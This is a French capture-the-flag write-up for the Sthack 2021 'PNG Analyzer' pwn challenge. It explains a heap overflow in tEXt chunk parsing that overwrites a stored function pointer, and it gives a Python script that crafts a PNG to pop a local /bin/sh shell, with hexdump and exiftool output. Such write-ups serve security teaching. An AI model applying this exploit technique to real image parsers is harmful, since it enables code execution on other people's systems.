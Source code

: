 ```yaml
---
title: PWN - PNG Analyzer
category: Sthack2021
author: vaelio
tags:
- sthack2021
- pwn
- ctf
description: "Writeup Sthack 2021 - PNG Analyzer - PWN"
---
```

## Fichier

- [Binaire](https://github.com/ZenSecCTF/zensecctf.github.io/releases/download/Sthack2021-Files/png_analyzer)

Introduction
===
Pour ce challenge, il faut d'abord réussir à télécharger le binaire à exploiter. 
Lorsqu'on se connecte à l'index du site on peut remarquer que le site tente de charger http://dev.img.local/troll.png. 
Or ce nom de domaine ne résouds pas. C'est notre hint. Ici on va simplement éditer notre `/etc/hosts` afin de faire pointer localement le nom de domaine vers l'IP originale.
À partir de là, dans le dossier upload, on peut trouver le binaire `png_analyzer`

Voilà les infos du programme :

```
~ 
❯ file ./Downloads/png_analyzer
./Downloads/png_analyzer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=94ea393d939b2f7e83e650bbe1206da5a834e15e, for GNU/Linux 3.2.0, not stripped

~ 
❯ checksec ./Downloads/png_analyzer
[*] '/home/user/Downloads/png_analyzer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

TL;DR
===
En résumé le programme va prendre en argument un fichier à analyser, vérifier que le fichier est bien un PNG, va ensuite analyser chaque bloc de donnée du PNG et affichera les méta-donnés de tous les blocs de type `tEXt` avant de finir par exécuter la fonction `do_nothing` avec en paramètre le titre du bloc.

Par exemple, si nous avons dans notre PNG un bloc de type `tEXt` dont le titre est `Comment` alors le programme exécutera `do_nothing("Comment")`. La preuve en image:

![]({{site.url}}/static/upload_4a219d9ebbc5642622f99991aeacddb1.png)

Exploitation
===
Lorsqu'on reverse le binaire une chose nous saute aux yeux, le pointer vers `do_nothing` est stocké pour chaque bloc d'information dans le chunk qui lui est associé dans la `heap`.

![]({{site.url}}/static/upload_14379e33db0d981f8667232307814ae2.png)

Voici, en pseudo-code, la fonction `parse_chunk` qui parse les fameux bloc PNG:


![]({{site.url}}/static/upload_5a14c7c981fb9ec115bd91481ce42059.png)

On peut remarquer que l'écriture du pointer vers `do_nothing` se fait avant le `memcpy`. 

On constate également que le programme va chercher le pointer vers `do_nothing` avant de l'exécuter:
![]({{site.url}}/static/upload_8ae580cbfd8fc90299c540388bbf84e2.png)

**Bingo !** Il suffit donc que notre chunk puisse réécrire ce pointer.

En conclusion, il faut donc:
- que notre fichier soit un PNG
- que notre fichier contienne une donnée EXIF de type `tEXt` (par exemple Comment)
- que la valeur de cette donnée réécrive le pointeur vers `do_nothing`
- que rien ne crash :D

Voilà rapidement un petit script assez moche permettant d'obtenir un fichier qui nous donnera un shell local:

```python
#!/bin/env python3

from struct import pack
from os import system
import png


def mkImg():
    i = []
    for x in range(21):
        i.append([0,0,0,0])
    png.from_array(i, 'L').save("/tmp/test")
    buf = 'A'*0x1ffc + pack('<Q', 0x401160)
    with open('/tmp/buf', "w") as fd:
        fd.write(buf)
    system("exiftool -Comment=$(cat /tmp/buf) /tmp/test")
    with open("/tmp/test", "rb") as fd:
        content = fd.read()
    return content


def w(data):
    with open("/tmp/f", "wb") as fd:
        fd.write(data)



def main():
    data = mkImg()
    data = data[:41] + "/bin/sh\x00" + data[49:]
    w(data)



if __name__ == '__main__':
    main()


```


En bonus, un petit hexdump du fichier final et un exiftool
```
~
❯ hexdump -C /tmp/f
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 04 00 00 00 15  08 00 00 00 00 44 10 10  |.............D..|
00000020  9c 00 00 20 07 74 45 58  74 2f 62 69 6e 2f 73 68  |... .tEXt/bin/sh|
00000030  00 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |.AAAAAAAAAAAAAAA|
00000040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00002020  41 41 41 41 41 41 41 41  41 41 41 41 41 60 11 40  |AAAAAAAAAAAAA`.@|
00002030  76 b8 6c 27 00 00 00 0c  49 44 41 54 78 9c 63 60  |v.l'....IDATx.c`|
00002040  a0 13 00 00 00 69 00 01  11 3e ed a7 00 00 00 00  |.....i...>......|
00002050  49 45 4e 44 ae 42 60 82                           |IEND.B`.|
00002058
```

```
~
❯ exiftool /tmp/f
ExifTool Version Number         : 12.30
File Name                       : f
Directory                       : /tmp
File Size                       : 8.1 KiB
File Modification Date/Time     : 2021:10:18 12:29:49+02:00
File Access Date/Time           : 2021:10:18 17:04:07+02:00
File Inode Change Date/Time     : 2021:10:18 12:29:49+02:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 4
Image Height                    : 21
Bit Depth                       : 8
Color Type                      : Grayscale
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Binsh                           : AAAA[REDACTED]AAAA`.@
Image Size                      : 4x21
Megapixels                      : 0.000084
```

Conclusion
===
Un petit challenge plutôt simple, mais intéressant :+1: 
